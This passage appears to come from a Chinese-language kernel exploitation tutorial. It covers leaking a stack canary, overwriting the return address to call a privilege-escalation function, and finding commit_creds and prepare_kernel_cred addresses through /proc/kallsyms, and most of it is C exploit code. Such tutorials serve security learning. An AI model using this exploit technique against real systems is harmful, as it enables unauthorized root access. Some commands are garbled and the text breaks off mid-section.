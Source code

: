 

#### Leaking stack cookies

利用stackoverflow泄露canary绕过那唯一的保护

```c
unsigned long cookie;

void leak(void){
    unsigned n = 20;			//由IDA 栈结构可算出
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];

    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
}
```



#### Overwriting return address

这里和上述的泄露操作差不多，我们同样使用**unsigned long**数组来做payload，在ret_addr处覆盖为提权函数(escalate_privs):

```c
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = 0x0; // rbp
    payload[off++] = (unsigned long)escalate_privs; // ret

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```

经过escalate_privs函数我们完成提权，现在的重点是这个函数咋写？



#### Getting root privileges

我们的目标：获取root权限然后打开一个shell。使用：`commit_creds(prepare_kernel_cred(0))`这两个内核函数。

因为我们关闭了大部分的保护(KASLR)所以这两个的函数地址是固定的，可以从**/proc/kallsyms找到**(这就需要提前使用root查看，修改启动脚本)：

```bash
t /proc/kallsyms | grep commit_creds
-> ffffffff814c6410 T commit_creds
cat /proc/kallsyms | grep prepare_kernel_c
```
